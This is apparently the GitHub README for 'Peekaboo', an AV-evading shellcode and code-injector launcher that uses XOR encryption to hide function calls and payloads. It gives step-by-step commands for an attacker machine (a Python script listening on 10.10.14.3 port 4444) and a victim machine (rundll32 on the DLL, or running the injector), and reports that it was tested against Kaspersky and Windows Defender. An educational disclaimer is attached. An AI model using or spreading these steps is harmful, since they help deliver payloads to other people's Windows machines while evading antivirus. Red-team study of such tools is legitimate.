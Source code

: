 # Peekaboo

Simple undetectable shellcode and code injector launcher example. Inspired by RTO malware development course.

## Main logic

XOR encryption and decryption for functions call and main payload - `calc.exe` as example.

## Usage
## 1. DLL
### on attacker machine
run python script with flags:
```bash
python3 peekaboo.py -l 10.10.14.3 -p 4444
```

### then on victim machine (windows x64):
run on powershell or cmd promt:
```
rundll32 .\peekaboo.dll, TpLbDJOWUjUmGyuHWpKk
```

## 2.Injector
### on attacker machine:
run python script on linux:
```bash
python3 peekaboo-inj.py -l 10.10.14.3 -p 4444
```

compile in VS - windows machine x64:
```cmd
.\compile-inj.bat
```

### then on victim machine (windows x64):
```
.\peekaboo.exe
```

## Issues.
Tested on:
1. Attacker machines: Kali linux 2020.1, Windows 10 x64
2. Victim machine: Windows 10 x64
3. Payload: Calc.exe
4. AV Engines: Kaspersky, Windows Defender

## TODO
Compile injector in Kali linux

## Attention
This tool is a Proof of Concept and is for Educational Purposes Only!!! Author takes no responsibility of any damage you cause

## License
[MIT](https://choosealicense.com/licenses/mit/)